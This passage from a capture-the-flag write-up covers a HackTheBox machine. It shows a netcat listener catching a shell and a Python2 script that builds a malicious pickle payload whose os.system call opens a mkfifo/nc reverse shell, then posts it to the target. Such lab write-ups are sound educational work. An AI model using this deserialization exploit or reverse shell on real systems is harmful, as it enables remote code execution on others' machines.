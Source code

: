 
  ```

  root@kali# nc -lnvp 4444
  listening on [any] 4444 ...
  connect to [10.10.15.48] from (UNKNOWN) [10.10.10.70] 58290
  /bin/sh: 0: can't access tty; job control turned off
  $ python -c 'import pty;pty.spawn("bash")'
  www-data@canape:/$

  ```

### Script Source

#### Note

I’ve got the source for my script here, but I’m going to plead with you not to use it. Getting this exploit working was one of the most fun I’ve had on HackTheBox. I’m going to add a section at the end on my approach to this problem. If you haven’t done this box, or are stuck here, jump to the end, read that section, and give it a try before copying and running this script.

#### Code

We’ll use python2 here because the site is running python2, and we want the pickle output to match.

```

#!/usr/bin/env python

import cPickle
import os
import requests
import sys
from hashlib import md5

class Exploit(object):

    def __init__(self, cmd):
        self.cmd = cmd

    def __reduce__(self):
        return (os.system, ('echo moe && ' + self.cmd,))

def main():
    if len(sys.argv) != 3:
        print("{} [ip] [port]".format(sys.argv[0]))
        sys.exit()

    ip = sys.argv[1]
    port = sys.argv[2]
    cmd = "rm /tmp/0xdf; mkfifo /tmp/0xdf; cat /tmp/0xdf | /bin/sh -i 2>&1 | nc {} {} > /tmp/0xdf".format(ip, port)
    exploit = cPickle.dumps(Exploit(cmd))

    char = exploit[:-1]
    quote = exploit[-1:]
    id_ = md5(char+quote).hexdigest()

    print("[*] Filename will be: {}".format(id_))
    print("[*] Exploit:\n{}".format(exploit))
    print("[+] Sending exploit...")
    r = requests.post('http://10.10.10.70/submit', data = {'character': char, 'quote': quote})
    if r.status_code != 200:
        print("[-] Error submitting exploit to /submit")
        sys.exit()
    print("[+] Exploit successfully submitted")
```